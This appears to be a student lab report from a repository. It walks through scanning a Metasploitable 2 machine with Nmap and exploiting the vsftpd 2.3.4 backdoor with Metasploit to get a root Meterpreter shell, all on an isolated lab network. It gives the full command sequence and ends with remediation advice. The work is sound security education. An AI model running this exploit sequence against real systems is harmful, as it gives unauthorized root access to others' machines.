









# Experiment 2: Simulated Ethical Hacking with Metasploit

## Aim

To perform simulated ethical hacking on a vulnerable Metasploitable 2 machine using Nmap and the Metasploit Framework, identify a vulnerable service, exploit the vulnerability in a controlled laboratory environment, and verify access to the target system.

---

## Objective

1. To establish connectivity between Kali Linux and Metasploitable 2.
2. To identify open ports and running services using Nmap.
3. To identify the vulnerable `vsftpd 2.3.4` FTP service.
4. To start and use the Metasploit Framework.
5. To search for an appropriate exploit module.
6. To configure the exploit with the target and local machine information.
7. To exploit the vulnerable FTP service.
8. To obtain a Meterpreter session on the target.
9. To verify the target system and obtained privileges.

---

## Tools and Technologies Used

- Kali Linux
- Metasploitable 2
- Nmap
- Metasploit Framework
- VMware
- FTP
- vsftpd 2.3.4

---

# Procedure

## Step 1: Network Configuration

The Kali Linux and Metasploitable 2 machines were connected to the same isolated laboratory network.

The IP address of the Kali Linux machine was:

```text
192.168.26.130
```

The IP address of the Metasploitable 2 target machine was:

```text
192.168.26.129
```

The IP configuration was checked using the `ip addr` or `ifconfig` command.

### Output



---

## Step 2: Verify Connectivity

Connectivity between Kali Linux and the Metasploitable 2 machine was verified using the `ping` command.

The following command was executed:

```bash
ping -c 4 192.168.26.129
```

The ping was successful, confirming that Kali Linux could communicate with the Metasploitable 2 target over the laboratory network.

### Output



---

## Step 3: Perform Nmap Scan

Nmap was used to identify open ports, running services, service versions, and operating system information on the target machine.

The following command was executed:

```bash
nmap -sS -sV -O 192.168.26.129
```

The scan identified several services running on the Metasploitable 2 machine.

An important finding was the FTP service running on TCP port `21`:

```text
21/tcp open ftp
vsftpd 2.3.4
```

The `vsftpd 2.3.4` service was selected for further testing because this version contains a known backdoor vulnerability.

### Output



---

## Step 4: Start Metasploit Framework

The Metasploit Framework was started from the Kali Linux terminal using:

```bash
msfconsole
```

After successful startup, the Metasploit command prompt was displayed.

### Output



---

## Step 5: Search for the vsftpd Exploit

The Metasploit search function was used to find an appropriate exploit for the vulnerable `vsftpd 2.3.4` service.

The following command was executed:

```bash
search vsftpd
```

The search results included the following exploit module:

```text
exploit/unix/ftp/vsftpd_234_backdoor
```

This module was selected because the target was running `vsftpd 2.3.4`.

### Output



---

## Step 6: Load the Exploit Module and View Options

The identified exploit module was loaded using:

```bash
use exploit/unix/ftp/vsftpd_234_backdoor
```

The available module options were then displayed using:

```bash
show options
```

The exploit module was configured to target the vulnerable FTP service.

### Output



---

## Step 7: Configure the Exploit

The exploit was configured with the IP address and port of the target machine.

The target IP address was set using:

```bash
set RHOSTS 192.168.26.129
```

The target FTP port was set using:

```bash
set RPORT 21
```

The local Kali Linux IP address was configured as the listener address:

```bash
set LHOST 192.168.26.130
```

The final configuration was verified using:

```bash
show options
```

The important configured values were:

```text
RHOSTS  192.168.26.129
RPORT   21
LHOST   192.168.26.130
LPORT   4444
```

### Output



---

## Step 8: Execute the Exploit

The exploit was executed using:

```bash
exploit
```

Metasploit automatically checked whether the target was vulnerable.

The FTP banner was detected as:

```text
vsFTPd 2.3.4
```

The target was identified as vulnerable and the backdoor was successfully spawned.

A Meterpreter session was then opened between Kali Linux and the Metasploitable 2 machine.

The successful session was displayed as:

```text
Meterpreter session 1 opened
```

and the Meterpreter prompt was obtained:

```text
meterpreter >
```

### Output



---

## Step 9: Verify the Obtained Session

After obtaining the Meterpreter session, a command shell was opened using:

```bash
shell
```

The current user was checked using:

```bash
whoami
```

The result was:

```text
root
```

This showed that the shell was running with root privileges.

The operating system and kernel information were checked using:

```bash
uname -a
```

The target system reported:

```text
Linux metasploitable 2.6.24-16-server #1 SMP Thu Apr 10 13:58:00 UTC 2008 i686 GNU/Linux
```

The network configuration of the target was checked using:

```bash
ifconfig
```

The target's network interface showed the IP address:

```text
192.168.26.129
```

### Output



---

# Result

The simulated ethical hacking experiment was successfully completed in the controlled laboratory environment.

Nmap was used to identify the vulnerable FTP service running `vsftpd 2.3.4` on port `21`.

The Metasploit Framework was then used to load and execute the `vsftpd_234_backdoor` exploit.

A Meterpreter session was successfully obtained on the Metasploitable 2 target, and the obtained shell was verified using `whoami`, `uname -a`, and `ifconfig`.

The `whoami` command returned:

```text
root
```

indicating that the obtained shell had root-level privileges on the intentionally vulnerable laboratory machine.

---

# Security Observation

The experiment demonstrated the security risk associated with running vulnerable and outdated software.

The `vsftpd 2.3.4` service running on the Metasploitable 2 machine allowed the known backdoor vulnerability to be exploited.

An attacker who successfully exploits such a vulnerability may gain unauthorized access to the affected system.

---

# Solution

The vulnerability can be addressed by:

1. Removing the vulnerable version of `vsftpd`.
2. Updating the FTP service to a secure and supported version.
3. Disabling unnecessary FTP services.
4. Restricting access to FTP using firewall rules.
5. Monitoring network services for suspicious activity.
6. Regularly scanning systems for known vulnerabilities.
7. Keeping operating systems and installed software updated.

Metasploitable 2 is intentionally designed to contain vulnerable services for cybersecurity education and laboratory practice.

---

# Conclusion

This experiment demonstrated the basic process of simulated ethical hacking using Nmap and the Metasploit Framework.

Nmap was first used to discover the vulnerable `vsftpd 2.3.4` FTP service. Metasploit was then used to identify and load the corresponding exploit module, configure the target and local machine settings, and execute the exploit.

A Meterpreter session was successfully established with the Metasploitable 2 machine. The session was verified using system and network commands, and the `whoami` command confirmed root-level access.

The experiment provided practical understanding of vulnerability identification, exploit selection, exploit configuration, and post-exploitation verification in a controlled cybersecurity laboratory environment.

---

# Lab Environment

| Machine | IP Address | Purpose |
|---|---|---|
| Kali Linux | `192.168.26.130` | Security testing and Metasploit |
| Metasploitable 2 | `192.168.26.129` | Intentionally vulnerable target |
| Laboratory Network | `192.168.26.0/24` | Isolated lab network |

---

# Repository Structure

```text
EXPERIMENT 2/
│
├── README.md
│
└── output/
    ├── step1.png
    ├── step2.png
    ├── step3.png
    ├── step4.png
    ├── step5.png
    ├── step6.png
    ├── step7.png
    ├── step8.png
    └── step9.png
```
